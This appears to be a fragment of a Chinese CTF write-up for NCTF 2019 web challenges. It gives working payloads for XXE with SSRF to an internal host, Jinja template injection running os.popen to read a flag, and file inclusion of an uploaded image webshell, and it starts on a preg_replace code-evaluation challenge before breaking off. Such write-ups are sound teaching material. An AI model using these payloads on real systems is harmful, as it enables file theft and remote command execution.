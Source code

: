 XML+SSRF打内网
```
POST /doLogin.php HTTP/1.1
Host: nctf2019.x1ct34m.com:40003
Content-Length: 220
Accept: application/xml, text/xml, */*; q=0.01
Origin: http://nctf2019.x1ct34m.com:40003
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
DNT: 1
Content-Type: application/xml;charset=UTF-8
Referer: http://nctf2019.x1ct34m.com:40003/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://192.168.1.8">
 ]>

<user><username>&xxe;</username><password>123</password></user>
```
NCTF{XXE-labs_is_g00d}
### flask
模板注入,用通配符读flag
```
http://nctf2019.x1ct34m.com:40007/%7B%7B''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('cat%20/fla?%27).read()%7D%7D
```
### Upload your Shell
传一个图片马,会返回一个题目本身就准备好的图片马的所在目录
找个地方包含一下就好了
```
http://nctf2019.x1ct34m.com:60002/index.php?action=/upload-imgs/9ae46c526dfb6d96e95ad35bfbb2b6c4/Th1s_is_a_fl4g.jpg
```
### replace

填三个"#"报错

```
Parse error: syntax error, unexpected end of file in /var/www/html/index.php(70) : regexp code on line 1

Fatal error: preg_replace(): Failed evaluating code: # in /var/www/html/index.php on line 70
```

实现功能使用的是preg_replace()

题目提示用了php5.6

